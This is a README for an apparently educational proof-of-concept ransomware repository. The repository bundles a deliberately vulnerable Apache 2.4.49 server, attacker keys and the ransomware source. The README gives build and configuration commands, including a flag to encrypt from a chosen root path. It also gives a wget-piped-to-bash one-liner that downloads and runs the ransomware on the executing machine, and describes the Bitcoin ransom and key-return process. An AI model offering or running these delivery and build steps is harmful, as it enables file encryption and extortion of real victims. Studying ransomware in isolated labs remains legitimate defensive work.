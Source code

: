 # Yet Another Ransomware Demo (YARD)

## Introduction
WARNING: Educational Purposes Only

This repository contains a proof-of-concept ransomware implementation. It is intended for educational purposes only and should never be used in a real-world environment. 
Running this code on a system you don't have explicit permission to modify could result in data loss or system damage.

## Repository Structure
This project is a mono-repo of 3 components
1. apache-httpd - Configs and Dockerfiles to build a vulnerable apache httpd 2.4.49 server susceptible to remote code execution
2. attacker - Ransomware attacker's public key, private key and helper scripts
3. ransomware - Ransomware's source code

## Dependencies
This demo was built on a ubuntu-amd64-18.06 VM. There is no guarantee support for other OS-es.
You can find the setup script for an ubuntu-amd64-18.06 VM that installs all the OS dev dependencies at `ransomware/scripts/ubuntu-dev-setup.sh`.
- make
- python3 pip3
- tkinter
- virtualenv


## Usage

### Building/Packaging the Payload (Optional)
The **payload** of the ransomware consist of 2 items:
1. The attacker's public key
2. The binary of the ransomware

**1. Attacker's public key**
The project comes with a copy of a sample attacker's public key at `attacker/public_key.pem` which will be used for all the official releases on github.
Should you need to generate a new key, you can use the `attacker/gen-attacker-key.py` script.

**2. Building the ransomware**
To build the ransomware, we will need a python environment with the packages recorded in `ransomware/requirements.txt`.
It is recommended that you create a virtualenv to contain the packages:
```sh
# from the root of the project, cd to ransomware subdir
cd ransomware

# create a venv
python3 -m virtualenv venv

# activate the venv
source venv/bin/activate

# install the required packages
pip install -r requirements.txt

# build the ransomware source code with the activated venv
make build
```

After building, you should see a binary file at `ransomware/dist/ransomware` directory of the project.
Note that by default, the ransomware looks for a file named `public_key.pem` at its current directory, this can be changed along with other configurations of the ransomware with the flags below:
```sh
./ransomware --help

--pub PUBLIC_KEY_FILE
	the public key to encrypt the sym key with
--path OS_ROOT_PATH   the directory to start encrypting from, can be changed
	to a specific folder to run on that folder only
--enc-sym-key ENC_SYM_KEY
	the location to save the encrypted sym key
```

### Installing the Payload on target
As part of the PoC of delivering a ransomware, we've crafted a shell script `ransomware/scripts/dangerous-install.sh` to install a released version of the `ransomware` along with a `public_key.pem` on a target system. The script can be executed on a remote system with this command:
```sh
# WARNING: THIS WILL RUN THE RANSOMWARE ON THE SYSTEM YOU'RE RUNNING THIS COMMAND ON
wget -q -O - https://github.com/yet-another-ransomware-demo/yet-another-ransomware-demo/raw/dev/soonann/ransomware/scripts/dangerous-install.sh | bash
```

### Paying the ransom (decrypting your files)
After the ransomware has been executed, it creates a key file in the home directory of the user it has executed as.
In order for the user to decrypt their files, the user will need to make a payment to the given BTC Address with a message attached as mentioned in the ransomware's UI.

The address is an anonymous Bitcoin Address for the attacker to receive payments on, while the message is the encrypted form of the symmetric key that was used to encrypt the files.

### Attacker responds with the decryption key
Given the encrypted symmetric key from the message attached with the payment, the attacker will then decrypt the message with their private key.
The attacker would then send this decrypted symmetric key back to the target through other means e.g. anonymous mail, which the target can then use to decrypt their files.


## Development

### Encryption
Note that by default, this project will run the ransomware demo against the `os_root` directory in its current directory.
This can be changed with the flags 
You can generate an fake `os_root` directory using:
```sh
# cd into the ransomware dir
cd ransomware

# generate the fake os_root dir
make mock-gen

# view the contents of the files in the fake os_root dir
make mock-view
```

We'll now make a copy of the sample attacker's public key located at `attacker/public_key.pem`
```sh
cp attacker/public_key.pem ransomware/public_key.pem
```

With the attacker's public key, we can now start the ransomware demo with:
```sh
# to run the demo
make run

# or you could also build the demo as a binary file and run it
make build
./dist/ransomware
```

Running the demo does the following:
1. Generates a Symmetric Key
2. Encrypts the Generated Symmetric Key with the attacker's public key (uses `pulic_key.pem` in the same directory by default, can be modified with `--pub` flag) and saves the encrypted content as a file called `key` in the current directory (can be modified with `--enc-sym-key`)
3. Encrypt the files with the Generated Symmetric Key in Step 1.
4. Show Ransom UI

After the demo has ran, you are free to close the UI, as you can re-open it with `./main` or `make run` again. This command checks for the `key` file and if it exists, it wouldn't run the encryption again.

#### Decryption
To decrypt the files that have been encrypted, you will need to send the contents of the `key` file to the attacker when making payment.

The attacker would then decrypt the `key` file's contents with their `private_key.pem`.
To simulate this happening, you can run:
```sh
# simulate attacker decrypting the key
make attacker-decrypt
# stdout:
Decrypted contents: n1f6E3RofoXlIeUFP2onpcsi7EcBYd-zgrOG4lNdcdc=
```

With the key e.g: `n1f6E3RofoXlIeUFP2onpcsi7EcBYd-zgrOG4lNdcdc=`, we would enter this key into the textbox in the GUI and press the decrypt button.
![](./docs/demo-decrypt.png)
